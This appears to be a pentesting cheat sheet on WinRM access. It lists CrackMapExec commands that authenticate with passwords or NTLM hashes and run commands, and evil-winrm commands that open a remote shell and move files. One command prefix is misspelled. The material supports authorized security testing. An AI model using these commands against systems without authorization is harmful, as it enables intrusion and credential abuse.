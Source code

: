 ### Requirement
>For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.
###### Authentication
```
cme winrm ip -u username -p password
cme winrm ip -u username -p password -x command
cmd winrm ip -u username -H ntlm_hash
cme winrm ip -u username -H ntlm_hash -x command
```

###### Get-shell
>This shell is the ultimate WinRM shell for hacking/pentesting.

>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.


```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash

evil-winrm basic commands:
upload local_filename || upload local_filename destination_filename
download remote_filename || download remote_filename destination_filename

```
